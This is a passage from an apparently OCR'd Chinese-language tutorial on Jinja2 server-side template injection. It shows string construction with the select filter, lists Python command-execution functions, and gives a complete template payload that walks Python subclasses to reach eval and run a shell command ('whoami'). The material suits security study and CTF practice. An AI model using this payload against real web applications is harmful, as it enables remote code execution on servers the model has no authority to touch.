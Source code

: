     #如果没有list，会输出其存放的地址
    {{[1,3,4,9,16,48]|select('>',3)}}
    
    输出
    <generator object select_or_reject at 0x0000014298352750>
    ```

    于是可以利用其来构造字符串

    `{{()|select|string)[1]}}`输出为g

### 发掘可利用的playload

### 有回显

先可以爆破一波，找找哪些字符被ban，然后根据已有的字符去构造命令

```
python环境常用命令执行方式：
os.system()
用法：os.system(command)

os.popen()
用法：os.popen(command[,mode[,bufsize]])
说明：mode – 模式权限可以是 ‘r’(默认) 或 ‘w’。

subprocess
subprocess 模块有比较多的功能，subprocess模块被推荐用来替换一些老的模块和函数，如：os.system、os.spawn、os.popen等

subprocess模块目的是启动一个新的进程并与之通信。这里只讲用来运行shell命令的两个常用方法。

subprocess.call(“command”)
父进程等待子进程完成
返回退出信息(returncode，相当于Linux exit code)

与os.system功能相似,也无执行结果的回显

subprocess.Popen(“command”)
```

也可以用脚本去查找有用的函数，这里找了个脚本，不一定有用，看看原理就行

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
